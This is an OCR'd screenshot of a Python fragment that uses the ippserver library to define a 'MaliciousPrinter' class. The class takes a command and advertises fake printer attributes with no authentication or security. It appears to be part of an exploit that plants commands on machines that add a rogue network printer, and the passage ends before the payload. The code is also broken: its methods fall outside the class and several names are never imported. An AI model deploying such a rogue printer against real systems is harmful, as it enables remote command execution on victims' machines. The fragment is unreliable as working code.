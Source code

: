 ```python
from ippserver.parsers import Integer, Enum, Boolean
from ippserver.request import IppRequest


class MaliciousPrinter(behaviour.StatelessPrinter):
	def __init__(self, command):
		self.command = command
		super(MaliciousPrinter, self).__init__()

def minimal_attributes(self):
	return {
		# This list comes from
		# [https://tools.ietf.org/html/rfc2911]
		# Section 3.1.4.2 Response Operation Attributes
		(
			SectionEnum.operation,
			b'attributes-charset',
			TagEnum.charset
		): [b'utf-8'],
		(
			SectionEnum.operation,
			b'attributes-natural-language',
			TagEnum.natural_language
		): [b'en'],
	}

def printer_list_attributes(self):
	attr = {
		# rfc2911 section 4.4
		(
			SectionEnum.printer,
			b'printer-uri-supported',
			TagEnum.uri
		): [self.printer_uri],
		(
			SectionEnum.printer,
			b'uri-authentication-supported',
			TagEnum.keyword
			): [b'none'],
		(
			SectionEnum.printer,
			b'uri-security-supported',
			TagEnum.keyword
		): [b'none'],
		(
			SectionEnum.printer,
			b'printer-name',
			TagEnum.name_without_language
		): [b'Main Printer'],
		(
			SectionEnum.printer,
			b'printer-info',
			TagEnum.text_without_language
		): [b'Main Printer Info'],
		(
			SectionEnum.printer,
			b'printer-make-and-model',
			TagEnum.text_without_language
		): [b'HP 0.00'],
		(
			SectionEnum.printer,
			b'printer-state',
			TagEnum.enum
```